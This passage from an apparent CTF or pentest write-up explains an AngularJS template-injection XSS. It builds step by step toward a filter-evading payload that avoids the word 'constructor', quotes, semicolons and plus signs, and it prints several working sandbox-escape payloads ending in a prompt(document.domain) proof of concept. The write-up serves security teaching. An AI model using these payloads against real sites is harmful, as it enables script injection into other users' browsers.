 So what we need right now is to craft a payload that does not contain the word `constructor` and characters such as `"` or `'`. That might sound tricky, but when in time of need, just Google your way around with older research, posts, challenges, and such. If you did the right research, you might have come across [this one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/5%20-%20XSS%20in%20Angular.md#advanced-bypassing-xss).

So the payload would be something like

```js
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

Now we already know how to bypass the `{{` and `}}` limitations, but the payload from above still won't work due to factors such as containing characters such as `;` and `+`.

### Step 4: Bypassing the filters

Now this is why there is a saying that you should understand what you are attacking to be a good pentester, even the payload that you are trying to use... So if anyone tried to copy and paste the payload, it wouldn't work but it may require minor tweaking based on your Javascript knowledge.

First off...

```js
x=767015343;y=50986827;a=x.toString(36)+y.toString(36)
```
If you tested this part in the browser console, you will know that `a` will be a string called `"constructor"`, so what if we replace every single `a` variable reference with the string `"constructor"`? That would work if the filter didn't block the `"` character. but there is a workaround... which is to replace all of the `a` with a statement that results in the string `"constructor"`, such as:
```js
(767015343).toString(36)+(50986827).toString(36)
```
It's just that the backend also blocks `+`. But Javascript's objects are full of surprises, so we can bypass `+` by using the built-in `.concat()` method of any string, which results in something as follows:
```js
(767015343).toString(36).concat((50986827).toString(36))
```
Eventually, despite the length of the payload being bad we will still be presented with something like this.
```
{"{{{((767015343).toString(36).concat((50986827).toString(36))).sub.call.call({}[((767015343).toString(36).concat((50986827).toString(36)))].getOwnPropertyDescriptor(((767015343).toString(36).concat((50986827).toString(36))).sub.__proto__,((767015343).toString(36).concat((50986827).toString(36)))).value,0,toString()[((767015343).toString(36).concat((50986827).toString(36)))].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}}"}
```
And it works!